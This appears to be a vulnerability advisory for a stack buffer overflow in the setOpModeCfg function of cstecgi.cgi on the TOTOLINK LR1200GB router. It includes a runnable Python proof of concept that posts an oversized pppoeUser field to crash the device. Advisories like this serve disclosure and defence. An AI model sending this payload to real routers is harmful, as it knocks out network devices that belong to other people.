

# TOTOLINK LR1200GB(V9.1.0u.6619_B20230130) router has stack buffer overflow vulnerability
## Information

Vendor：http://totolink.net/

Firmware：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/233/ids/36.html

## Affected Version
V9.1.0u.6619_B20230130
## Vulnerability Analysis
The following image displays the code for a stack overflow vulnerability in the `setOpModeCfg` function of `cstecgi.cgi`. when `proto=3, switchOpMode=1, pppoeSpecType=1`, the value of the `pppoeUser` parameter will be concatenated to local variable `var_1c8` by `sprintf`. Due to the lack of length validation by the developer on `pppoeUser`, sending an overly long message by the attacker will eventually cause a stack overflow in the program.


## POC
```python
import requests
url = "http://192.168.0.1/cgi-bin/cstecgi.cgi"

payload = """{
    "opmode": "xxxx",
    "proto": "3",
    "pppoeUser": "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaezaafbaafcaafdaafeaaffaafgaafhaafiaafjaafkaaflaafmaafnaafoaafpaafqaafraafsaaftaafuaafvaafwaafxaafyaafzaagbaagcaagdaageaagfaaggaaghaagiaagjaagkaaglaagmaagnaagoaagpaagqaagraagsaagtaaguaagvaagwaagxaagyaagzaahbaahcaahdaaheaahfaahgaahhaahiaahjaahkaahlaahmaahnaahoaahpaahqaahraahsaahtaahuaahvaahwaahxaahyaahzaaibaaicaaidaaieaaifaaigaaihaaiiaaijaaikaailaaimaainaaioaaipaaiqaairaaisaaitaaiuaaivaaiwaaixaaiyaaizaajbaajcaajdaajeaajfaajgaajhaajiaajjaajkaajlaajmaajnaajoaajpaajqaajraajsaajtaajuaajvaajwaajxaajyaajzaakbaakcaakdaakeaakfaakgaakhaakiaakjaakkaaklaakmaaknaakoaakpaakqaakraaksaaktaakuaakvaakwaakxaakyaakzaalbaalcaaldaaleaalfaalgaalhaaliaaljaalkaallaalmaalnaaloaalpaalqaalraalsaaltaaluaalvaalwaalxaalyaalzaambaamcaamdaameaamfaamgaamhaamiaamjaamkaamlaammaamnaamoaampaamqaamraamsaamtaamuaamvaamwaamxaamyaamzaanbaancaandaaneaanfaangaanhaaniaanjaankaanlaanmaannaanoaanpaanqaanraansaantaanuaanvaanwaanxaanyaanzaaobaaocaaodaaoeaaofaaogaaohaaoiaaojaaokaaolaaomaaonaaooaaopaaoqaaoraaosaaotaaouaaovaaowaaoxaaoyaaozaapbaapcaapdaapeaapfaapgaaphaapiaapjaapkaaplaapmaapnaapoaappaapqaapraapsaaptaapuaapvaapwaapxaapyaapzaaqbaaqcaaqdaaqeaaqfaaqgaaqhaaqiaaqjaaqkaaqlaaqmaaqnaaqoaaqpaaqqaaqraaqsaaqtaaquaaqvaaqwaaqxaaqyaaqzaarbaarcaardaareaarfaargaarhaariaarjaarkaarlaarmaarnaaroaarpaarqaarraarsaartaaruaarvaarwaarxaaryaarzaasbaascaasdaaseaasfaasgaashaasiaasjaaskaaslaasmaasnaasoaaspaasqaasraassaastaasuaasvaaswaasxaasyaaszaatbaatcaatdaateaatfaatgaathaatiaatjaatkaatlaatmaatnaatoaatpaatqaatraatsaattaatuaatvaatwaatxaatyaatzaaubaaucaaudaaueaaufaaugaauhaauiaaujaaukaaulaaumaaunaauoaaupaauqaauraausaautaauuaauvaauwaauxaauyaauzaavbaavcaavdaaveaavfaavgaavhaaviaavjaavkaavlaavmaavnaavoaavpaavqaavraavsaavtaavuaavvaavwaavxaavyaavzaawbaawcaawdaaweaawfaawgaawhaawiaawjaawkaawlaawmaawnaawoaawpaawqaawraawsaawtaawuaawvaawwaawxaawyaawzaaxbaaxcaaxdaaxeaaxfaaxgaaxhaaxiaaxjaaxkaaxlaaxmaaxnaaxoaaxpaaxqaaxraaxsaaxtaaxuaaxvaaxwaaxxaaxyaaxzaaybaaycaaydaayeaayfaaygaayhaayiaayjaaykaaylaaymaaynaayoaaypaayqaayraaysaaytaayuaayvaaywaayxaayyaayzaazbaazcaazdaazeaazfaazgaazhaaziaazjaazkaazlaazmaaznaazoaazpaazqaazraazsaaztaazuaazvaazwaazxaazyaazzababacabadabaeabafabagabahabaiabajabakabalabamabanabaoabapabaqabarabasabatabauabavabawabaxabayabazabbbabbcabbdabbeabbfabbgabbhabbiabbjabbkabblabbmabbnabboabbpabbqabbrabbsabbtabbuabbvabbwabbxabbyabbzabcbabccabcdabceabcfabcgabchabciabcjabckabclabcmabcnabcoabcpabcqabcrabcsabctabcuabcvabcwabcxabcyabczabdbabdcabddabdeabdfabdgabdhabdiabdjabdkabdlabdmabdnabdoabdpabdqabdrabdsabdtabduabdvabdwabdxabdyabdzabebabecabedabeeabefabegabehabeiabejabekabelabemabenabeoabepabeqaberabesabetabeuabevabewabexabeyabezabfbabfcabfdabfeabffabfgabfhabfiabfjabfkabflabfmabfnabfoabfpabfqabfrabfsabftabfuabfvabfwabfxabfyabfzabgbabgcabgdabgeabgfabggabghabgiabgjabgkabglabgmabgnabgoabgpabgqabgrabgsabgtabguabgvabgwabgxabgyabgzabhbabhcabhdabheabhfabhgabhhabhiabhjabhkabhlabhmabhnabhoabhpabhqabhrabhsabhtabhuabhvabhwabhxabhyabhzabibabicabidabieabifabigabihabiiabijabikabilabimabinabioabipabiqabirabisabitabiuabivabiwabixabiyabizabjbabjcabjdabjeabjfabjgabjhabjiabjjabjkabjlabjmabjnabjoabjpabjqabjrabjsabjtabjuabjvabjwabjxabjyabjzabkbabkcabkdabkeabkfabkgabkhabkiabkjabkkabklabkmabknabkoabkpabkqabkrabksabktabkuabkvabkwabkxabkyabkzablbablcabldableablfablgablhabliabljablkabllablmablnabloablpablqablrablsabltabluablvablwablxablyablzabmbabmcabmdabmeabmfabmgabmhabmiabmjabmkabmlabmmabmnabmoabmpabmqabmrabmsabmtabmuabmvabmwabmxabmyabmzabnbabncabndabneabnfabngabnhabniabnjabnkabnlabnmabnnabnoabnpabnqabnrabnsabntabnuabnvabnwabnxabnyabnzabobabocabodaboeabofabogabohaboiabojabokabolabomabonabooabopaboqaborabosabotabouabovabowaboxaboyabozabpbabpcabpdabpeabpfabpgabphabpiabpjabpkabplabpmabpnabpoabppabpqabprabpsabptabpuabpvabpwabpxabpyabpzabqbabqcabqdabqeabqfabqgabqhabqiabqjabqkabqlabqmabqnabqoabqpabqqabqrabqsabqtabquabqvabqwabqxabqyabqzabrbabrcabrdabreabrfabrgabrhabriabrjabrkabrlabrmabrnabroabrpabrqabrrabrsabrtabruabrvabrwabrxabryabrzabsbabscabsdabseabsfabsgabshabsiabsjabskabslabsmabsnabsoabspabsqabsrabssabstabsuabsvabswabsxabsyabszabtbabtcabtdabteabtfabtgabthabtiabtjabtkabtlabtmabtnabtoabtpabtqabtrabtsabttabtuabtvabtwabtxabtyabtzabubabucabudabueabufabugabuhabuiabujabukabulabumabunabuoabupabuqaburabusabutabuuabuvabuwabuxabuyabuzabvbabvcabvdabveabvfabvgabvhabviabvjabvkabvlabvmabvnabvoabvpabvqabvrabvsabvtabvuabvvabvwabvxabvyabvzabwbabwcabwdabweabwfabwgabwhabwiabwjabwkabwlabwmabwnabwoabwpabwqabwrabwsabwtabwuabwvabwwabwxabwyabwzabxbabxcabxdabxeabxfabxgabxhabxiabxjabxkabxlabxmabxnabxoabxpabxqabxrabxsabxtabxuabxvabxwabxxabxyabxza",
    "switchOpMode": "1",
    "pppoeSpecType": "1",
    "topicurl": "setOpModeCfg",
    "token": "00000000000000000000000000000000"
}"""

requests.request("POST", url, data=payload)
```